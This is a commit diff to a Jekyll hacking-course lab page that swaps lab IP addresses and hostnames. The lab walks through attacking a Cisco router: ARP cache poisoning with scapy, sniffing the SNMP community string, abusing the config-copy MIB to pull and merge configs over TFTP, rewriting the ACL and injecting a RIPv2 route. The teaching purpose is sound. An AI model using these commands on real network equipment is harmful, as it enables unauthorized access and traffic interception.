

Before and after one commit to cmm-cisco/bah-site, a Jekyll site: the page built from modules/4.md, in a window 1280 px wide and 1400 px high, scrolled down 659 px, cut to the strip 0-946 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update networking lab

```diff
--- a/modules/4.md
+++ b/modules/4.md
@@ -20,16 +20,16 @@ A partial router configuration is provided:
     hostname router
     !
     interface Loopback0
-     ip address 192.168.3.1 255.255.255.255
+     ip address 10.1.3.1 255.255.255.255
     !
-    logging host 192.168.1.4
+    logging host 10.1.1.4
     !
     snmp-server community  RW 1
-    snmp-server host 192.168.1.4 version 2c
+    snmp-server host 10.1.1.4 version 2c
     !
-    access-list 1 permit 192.168.1.4 log
-    access-list 2 permit 192.168.1.5 log
-    access-list 2 permit 192.168.4.1 log
+    access-list 1 permit 10.1.1.4 log
+    access-list 2 permit 10.1.1.5 log
+    access-list 2 permit 10.1.4.1 log
     !
     line vty 0 4
      access-class 2 in
@@ -37,15 +37,15 @@ A partial router configuration is provided:
 
 ### Task 1
 
-Using `tshark` or [Wireshark](http://wiresharkdownloads.riverbed.com/video/wireshark/introduction-to-wireshark/), discover the SNMPv2 community string used in Traps sent to **windows.seccon.ninja**. The Get/Set community string uses the same password. Use ARP cache poisoning against the router to send the SNMPv2 trap to your kali box instead of windows.
+Using `tshark` or [Wireshark](http://wiresharkdownloads.riverbed.com/video/wireshark/introduction-to-wireshark/), discover the SNMPv2 community string used in Traps sent to **windows.pod.becomingahacker.com**. The Get/Set community string uses the same password. Use ARP cache poisoning against the router to send the SNMPv2 trap to your kali box instead of windows.
 
 {% capture text %}
 <pre>
-root@bah-pod1-kali:~# <strong> host windows.seccon.ninja</strong>
-windows.seccon.ninja has address 192.168.1.4
+root@bah-pod1-kali:~# <strong> host windows.pod.becomingahacker.com</strong>
+windows.pod.becomingahacker.com has address 10.1.1.4
 root@bah-pod1-kali:~# <strong> scapy</strong>
 Welcome to Scapy (2.2.0)
->>> arpcachepoison('192.168.1.1','192.168.1.4')
+>>> arpcachepoison('10.1.1.1','10.1.1.4')
 .
 Sent 1 packets.
 .^Z
@@ -75,7 +75,7 @@ Simple Network Management Protocol
 
 ### Task 2
 
-Using the discovered SNMPv2 community string and the [Cisco-Config-Copy-MIB](http://tools.cisco.com/Support/SNMP/do/BrowseMIB.do?local=en&mibName=CISCO-CONFIG-COPY-MIB), make the router upload its configuration via TFTP to **kali.seccon.ninja**. The uploaded configuration should be placed in `/srv/tftp`. A tool using [Scapy](http://www.secdev.org/projects/scapy/doc/) is provided to help you with this. ( `~/labs/networking/get-cisco-cfg.py` ) An access control list (ACL) configured on the router is blocking you--**bypass it!** Verify the TFTP server is running:
+Using the discovered SNMPv2 community string and the [Cisco-Config-Copy-MIB](http://tools.cisco.com/Support/SNMP/do/BrowseMIB.do?local=en&mibName=CISCO-CONFIG-COPY-MIB), make the router upload its configuration via TFTP to **kali.pod.becomingahacker.com**. The uploaded configuration should be placed in `/srv/tftp`. A tool using [Scapy](http://www.secdev.org/projects/scapy/doc/) is provided to help you with this. ( `~/labs/networking/get-cisco-cfg.py` ) An access control list (ACL) configured on the router is blocking you--**bypass it!** Verify the TFTP server is running:
 
 {% capture code %}
 netstat -lun | grep 69
@@ -115,9 +115,9 @@ Help for get-cisco-cfg.py.
 <pre>
 Running get-cisco-cfg.py
 
-         root@bah-pod1-kali:~/labs/networking# ./get-cisco-cfg.py -i eth1 -s 192.168.1.4 -d 192.168.1.1 -t 192.168.2.2 -f my-config -c
+         root@bah-pod1-kali:~/labs/networking# ./get-cisco-cfg.py -i eth1 -s 10.1.1.4 -d 10.1.1.1 -t 10.1.2.2 -f my-config -c
          WARNING: No route found for IPv6 destination :: (no default route?)
-         Attempting to download IOS config from 192.168.1.1
+         Attempting to download IOS config from 10.1.1.1
          .
          Sent 1 packets.
          .
@@ -201,7 +201,7 @@ Running ciscodecrypt
 ### Task 1
 
 The administrator is only allowed to log in
-from **metasploitable.seccon.ninja**. Without logging into this machine,
+from **metasploitable.pod.becomingahacker.com**. Without logging into this machine,
 figure out how to bypass this. See the **Bonus** section below.
 
 {% capture text %}
@@ -213,9 +213,9 @@ Edit /srv/tftp/to-apply.cfg
     root@bah-pod1-kali:~/labs/networking# cat /srv/tftp/to-apply.cfg
     !
     no access-list 2
-    access-list 2 permit 192.168.1.4
-    access-list 2 permit 192.168.4.1
-    access-list 2 permit 192.168.2.2
+    access-list 2 permit 10.1.1.4
+    access-list 2 permit 10.1.4.1
+    access-list 2 permit 10.1.2.2
     !
     ! Don't forget end! :-)
     end
@@ -225,9 +225,9 @@ Edit /srv/tftp/to-apply.cfg
 
 Merge configuration
 
-    root@bah-pod1-kali:~/labs/networking# sudo ./merge-cisco-cfg.py -i eth1 -s 192.168.1.4 -d 192.168.1.1 -t 192.168.2.2 -f to-apply.cfg -c <removed>
+    root@bah-pod1-kali:~/labs/networking# sudo ./merge-cisco-cfg.py -i eth1 -s 10.1.1.4 -d 10.1.1.1 -t 10.1.2.2 -f to-apply.cfg -c <removed>
     WARNING: No route found for IPv6 destination :: (no default route?)
-    Attempting to upload IOS config to 192.168.1.1
+    Attempting to upload IOS config to 10.1.1.1
     .
     Sent 1 packets.
     .
@@ -290,22 +290,22 @@ Discover the RIPv2 Password
 Configure IP Address for Overridden Route
 
     root@bah-pod1-kali:~/labs/networking# ip route
-    default via 192.168.1.1 dev eth1
-    169.254.169.254 via 192.168.0.100 dev eth0
-    192.168.0.0/24 dev eth0  proto kernel  scope link  src 192.168.0.104
-    192.168.1.0/24 dev eth1  proto kernel  scope link  src 192.168.1.2
-    192.168.2.0/24 dev eth2  proto kernel  scope link  src 192.168.2.2
-    192.168.4.248/29 via 192.168.0.254 dev eth0
-    seccon@pod-XX-kali:~/labs/networking$ sudo ip address add 192.168.1.5/32 dev eth2
-    seccon@pod-XX-kali:~/labs/networking$ sudo ip route add 192.168.3.1/32 via 192.168.2.1 src 192.168.1.5
+    default via 10.1.1.1 dev eth1
+    169.254.169.254 via 10.1.0.100 dev eth0
+    10.1.0.0/24 dev eth0  proto kernel  scope link  src 10.1.0.104
+    10.1.1.0/24 dev eth1  proto kernel  scope link  src 10.1.1.2
+    10.1.2.0/24 dev eth2  proto kernel  scope link  src 10.1.2.2
+    10.1.4.248/29 via 10.1.0.254 dev eth0
+    seccon@pod-XX-kali:~/labs/networking$ sudo ip address add 10.1.1.5/32 dev eth2
+    seccon@pod-XX-kali:~/labs/networking$ sudo ip route add 10.1.3.1/32 via 10.1.2.1 src 10.1.1.5
     seccon@pod-XX-kali:~/labs/networking$ ip route
-    default via 192.168.1.1 dev eth1
-    169.254.169.254 via 192.168.0.100 dev eth0
-    192.168.0.0/24 dev eth0  proto kernel  scope link  src 192.168.0.104
-    192.168.1.0/24 dev eth1  proto kernel  scope link  src 192.168.1.2
-    192.168.2.0/24 dev eth2  proto kernel  scope link  src 192.168.2.2
-    192.168.3.1 via 192.168.2.1 dev eth2  src 192.168.1.5
-    192.168.4.248/29 via 192.168.0.254 dev eth0
+    default via 10.1.1.1 dev eth1
+    169.254.169.254 via 10.1.0.100 dev eth0
+    10.1.0.0/24 dev eth0  proto kernel  scope link  src 10.1.0.104
+    10.1.1.0/24 dev eth1  proto kernel  scope link  src 10.1.1.2
+    10.1.2.0/24 dev eth2  proto kernel  scope link  src 10.1.2.2
+    10.1.3.1 via 10.1.2.1 dev eth2  src 10.1.1.5
+    10.1.4.248/29 via 10.1.0.254 dev eth0
 
 ------------------------------------------------------------------------
 
@@ -324,7 +324,7 @@ Inject RIPv2 Route
       -r ROUTE, --route=ROUTE
                             RIPv2 Prefix
       -m MASK, --mask=MASK  RIPv2 Subnet Mask
-    seccon@pod-XX-kali:~/labs/networking$ sudo ./inject.py -i eth2 -p  -r 192.168.1.5 -m 255.255.255.255
+    seccon@pod-XX-kali:~/labs/networking$ sudo ./inject.py -i eth2 -p  -r 10.1.1.5 -m 255.255.255.255
     WARNING: No route found for IPv6 destination :: (no default route?)
     Attempting to inject RIPv2 route.  It will last about 240 seconds
     .
@@ -334,7 +334,7 @@ Inject RIPv2 Route
 
 Log in
 
-    root@bah-pod1-kali:~/labs/networking# telnet 192.168.3.1
+    root@bah-pod1-kali:~/labs/networking# telnet 10.1.1.1
     ...
     User Access Verification
 
```
